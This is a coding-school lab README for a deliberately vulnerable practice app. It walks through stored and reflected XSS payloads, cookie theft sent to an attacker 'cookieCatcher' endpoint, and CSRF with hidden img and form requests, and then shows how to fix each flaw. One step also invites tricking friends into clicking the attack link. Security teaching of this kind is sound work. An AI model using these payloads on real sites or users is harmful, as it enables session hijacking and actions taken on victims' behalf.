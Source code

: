 # Pair Programming Exercise: Steal This App: Exercise 2

## Getting started

1. Create a user account on [http://steal-this-app-horizons.herokuapp.com/exercise2](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Login!

## Part 1: Insecure Messenger Cross-site Scripting (XSS)

Insecure messenger lets you send messages to other users on Steal This App.
Unfortunately, it is vulnerable to Cross-Site Scripting (XSS) attacks.

### a. Running JavaScript as someone else

The message body is not sanitized (i.e. escaped) before being rendered to the
page.
First we will exploit this vulnerability by making people send messages without
their knowledge.

1. Create a new user, we'll call this `User A`.
1. Send this message to `User A` from `User A`, refresh the page and check
   your console. You should see a message!

  ```html
  <script>
    console.log("I'm in your browser, running your JavaScripts");
  </script>
  ```

1. Make the `User A` send a message to via XSS. <br>
  Switch the `console.log()` statement with a `$.ajax()` call to
  make the same kind of `POST` request that the Send Message form
  on this page is making.

  ```html
  <script>
    $.ajax('/url of this page', {
      method: 'post',
      data: {
        // Form data goes here
      }
    })
  </script>
  ```
1. [Logout](https://steal-this-app-horizons.herokuapp.com/exercise2/logout)
  and create a new user, `User B`.
1. Send a specially crafted message from `User B` to `User A` and make sure
  that you can use the same attack across users.

### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter.
This parameter is also not sanitized before being rendered to the page, so
we can run JavaScript with it to.

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()`
like this:

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
```

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie
you can impersonate them. This page is vulnerable because it prints out messages
received on the page without escaping (i.e. sanitizing) HTML.

We can run JavaScript on other users' pages by sending them messages with this
page containing the &lt;script&gt; tag. Cookies are accessible (by default) in
JavaScript via `document.cookie`. So if we craft the right script tag, we can
steal their cookie!

  ```html
  <script>
    console.log('I can see your cookies!', document.cookies);
  </script>
  ```

1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your console

  ```
  !!!Cookie catcher!!!
  ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute og this image.

  ```javascript
  var img = $('<img>');
  // Read and submit this cookie via the img tag
  img.attr('src', "http://localhost:3000/cookieCatcher?cookie=") // you need to edit this line to pass the cookies to your server. 
  $('body').append(img); // this will append the HTML element into the DOM and therefore fire a GET request to the URL above.
  ```
1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Clone the `steal-this-app` GitHub repo. The vulnerabilities are in
`steal-this-app/views/messenger.hbs`

Replace triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing attempt the XSS attacks you did earlier to verify they
no longer work!

This is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```

## Part 3: Insecure Messenger Cross-site Request Forgery (CSRF)

Insecure Messenger is vulnerable to another type of attack called
Cross-site request forgery aka CSRF.

This type of attack does not involve running JavaScript in the target
site but instead relies on making requests on behalf of the user while
they are on a 3rd party site.

### a. Logout your enemies

In this exercise we're going to log someone out of Insecure Messenger
without their knowledge. We're going to do this using a hidden `img` that
will make a `GET` request to a destination of the attacker's choosing.

1. Log in to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start the Attacker app and connect to [http://localhost:3000/](http://localhost:3000/) make sure it's running.
1. Create a new route `GET /csrfLogout` that renders a single `img` tag
  that points to the logout page:
  ![](img/csrf1.png)

1. Visit your new endpoint.
1. Go back to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2) Are you still logged in?

### (Bonus) b. Send POST request with CSRF

OK, we made someone log out without telling them. What's the big deal?
Well let's now take this to the next level by making a `POST`
request without their knowledge as well.

This time we're going to make them send message, just like we did earlier
but without relying on XSS.

We need a new page on the Attacker side that contains a hidden form.

We are going make this form talk to
`http://steal-this-app-horizons.herokuapp.com/exercise2/messenger`
by using the `action` attribute and use a `POST` request with the
`method` attribute. It should look like this:

![](img/csrf2.png)

Once you get your form working, you can pull up the inbox of the
user that you sent a message to and verify that your attack succeeded.

![](img/csrf3.png)

### (Bonus) Fix CSRF vulnerabilities

To fix CSRF we need to add a second layer of protection to endpoints
that perform actions i.e. `POST` endpoints.

We will use the NPM package `csurf` to accomplish this.

1. Add `csurf` to your `app.js`

  ```javascript
  var csrf = require('csurf')();
  app.use(csrf);
  ```

1. Now all your `GET` requests will contain a new property `req.csrfToken()`
  which you can render as a hidden form field.

  **Route**

  ```javascript
  app.use('/route', function(req, res) {
    res.render('template', {
      _csrf: req.csrfToken()
    });
  });
  ```

  **Template**

  ```html
  <form method="post">
    <input type="hidden" name="_csrf" value="{{csrfToken}}">
  </form>
  ```

1. `POST` requests without a valid token in the `_csrf` field will now be
  automatically rejected.

## Done!

Wow! You completed everything! That was amazing! 🔥🎉✅
